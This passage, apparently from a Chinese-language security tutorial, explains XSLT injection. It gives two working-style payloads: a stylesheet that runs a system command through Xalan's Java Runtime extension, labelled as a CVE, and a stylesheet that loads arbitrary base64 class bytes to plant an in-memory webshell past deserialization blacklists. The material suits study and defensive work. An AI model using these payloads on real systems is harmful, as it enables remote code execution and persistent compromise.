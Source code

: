 

-  3. XSLT

    XSLT 是一种样式转换标记语言，可以将 XML 文档转换成其他格式，比如 HTML。XSLT 包含了超过 100 个内置函数, 这些函数可以用于字符串、数值、日期和时间比较、节点和 QName 处理, 序列处理, 逻辑判断等等

    我们可以将 XSLT 想象成模板引擎，在利用 SSTI 时我们通常需要用模板语言定义多个中间变量去构造完整的 payload，XSLT 也提供了定义变量的元素 variable

    ```xml
    <xsl:variable
    name="name"
    select="expression">
      <!-- Content:template -->
    </xsl:variable>
    ```

    其中 select 属性是一个表达式，可以灵活地通过各种功能函数去获取变量的值，如果没有控制好边界，攻击者可以通过 select 属性直接调用底层语言的方法/函数。比如：

    ```java
    <?xml version="1.0" encoding="utf-8"?>
    <xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
    xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
        <xsl:template match="/">
        <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
        <xsl:variable name="processString" select="ob:toString($process)"/>
        <xsl:value-of select="$processString"/>
        </xsl:template>
    </xsl:stylesheet>
    ```
    <div class="src-block-caption">
      <span class="src-block-number">Code Snippet 8:</span>
      CVE-2024-36522
    </div>

    在进行反序列化黑名单绕过时（比如 NacOS），也常常通过 XSLT 绕过黑名单实现任意类加载（因为特征在字符串中，可以搭配各种编码混淆），从而写入内存马

    ```xml
    <xsl:stylesheet version="1.0"
                    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                    xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                    xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                    xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                    xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils">
      <xsl:template match="/">
        <xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'<class_bytes_b64>')"/>
        <xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
        <xsl:variable name="rce" select="ru:defineClass('<class_name>',$bs,$cl)"/>
        <xsl:value-of select="$rce"/>
      </xsl:template>
    </xsl:stylesheet>
    ```
